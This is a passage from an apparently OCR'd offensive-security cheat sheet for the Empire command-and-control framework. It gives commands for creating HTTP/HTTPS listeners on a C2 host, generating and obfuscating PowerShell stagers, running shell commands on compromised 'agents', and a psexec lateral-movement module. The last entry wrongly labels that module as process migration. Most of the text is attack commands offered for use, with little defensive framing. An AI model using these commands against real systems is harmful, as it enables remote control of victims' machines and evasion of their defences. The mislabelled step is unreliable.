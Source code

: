
## 2. Empire Framework Cheat Sheet

### 📦 Basic Modules and Commands for Interaction

- **Starting Empire**:
  ```bash
  sudo ./empire
  ```

- **Creating a Listener**:
  - **HTTP Listener**:
    ```bash
    listeners create http
    listeners options set Host http://<C2_IP>:<PORT>
    ```
  - **HTTPS Listener**:
    ```bash
    listeners create https
    listeners options set Host https://<C2_IP>:<PORT>
    ```
  
- **Generating a Stager**:
  - PowerShell Stager:
    ```bash
    usestager windows/powershell_http
    execute
    ```
  - Launcher Command:
    ```bash
    launcher powershell
    ```

- **Establishing an Agent**:
  - Run stager on the target machine to establish an agent session.

- **Running Commands on Agents**:
  ```bash
  agents interact <Agent_Name>
  shell whoami  # Execute shell commands on target
  ```

### 🎩 Empire Evasion Techniques

- **Obfuscate PowerShell Payloads**:
  - Use `obfuscate` flag in PowerShell stagers.
  - **Example**:
    ```bash
    usestager windows/powershell_http
    set ObfuscateCommand True
    execute
    ```

- **Migrate to Different Process**:
  ```bash
  usemodule lateral_movement/invoke_psexec
  set ProcessName explorer.exe
  ```
